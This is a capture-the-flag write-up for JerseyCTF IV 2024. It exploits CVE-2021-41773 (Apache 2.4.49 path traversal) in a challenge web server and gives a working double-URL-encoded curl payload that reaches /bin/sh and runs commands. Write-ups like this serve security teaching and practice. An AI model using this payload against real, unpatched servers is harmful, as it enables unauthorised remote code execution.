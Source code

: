 JerseyCTF IV 2024 Write Up
==
URL: https://ctf.jerseyctf.com/

<br>

Web Exploitation
---
<br>

## Require-all-denied
Based on: [CVE-2021-41773](https://github.com/thehackersbrain/CVE-2021-41773)



### Description

We found this control panel on the Internet. It seems to be broken. Can you find out more information?

[Access Here!](http://54.160.214.145:1337/)

Developed by: [Noah Jacobson](https://github.com/noahajac)



### Enumeration


![image](https://hackmd.io/_uploads/SyDdifXo0.png)

On the main page, there is nothing interesting but the url seems a bit odd.

> [http://54.160.214.145:1337/cgi-bin/index/](http://54.160.214.145:1337/cgi-bin/index/)

Looks like the server is using apache. Try search the version by look at web header.

![image](https://hackmd.io/_uploads/B1Ql2Gmi0.png)

<br>

:notebook_with_decorative_cover: Take a Note

* [ ] Server: Apache/2.4.49 (Debian)
* [ ] Can't access route "**/cgi-bin**" and gave forbidden (**405**) but can access other  route like "**/cgi-bin/travel"** and "**/cgi-bin/status**"
* [ ] Possible LFI
* [ ] Try search the server vulnerability with keyword "**apache 2.4.49 exploit**"

<br>

### Exploit

#### Apache 2.4.49 Exploit

From here, I know that the vulnerabilities lies on path traversal (LFI) and could lead to RCE.

> [https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html](https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html)

Found payload from the blog above using:

```bash
curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; whoami'
```


where the basic idea is to back from previous path using ( **../** ). In the payload, using double encoding to avoid being detected/find a way so the code will work:

* ../ will be .%2e (**%2e** is url encoding equal **.**)
* .%2e will be .%%32%65 (**%32** equal **2** and **%65** equal **e**)


![image](https://hackmd.io/_uploads/rkw0hzmoC.png)
go to ../bin/sh to run a shell with given payload on the body

![image](https://hackmd.io/_uploads/rytgAzXs0.png)
got it. 



:::success
jctf{plz\_p4tch\_y0ur\_s3rv3rs}
:::

---

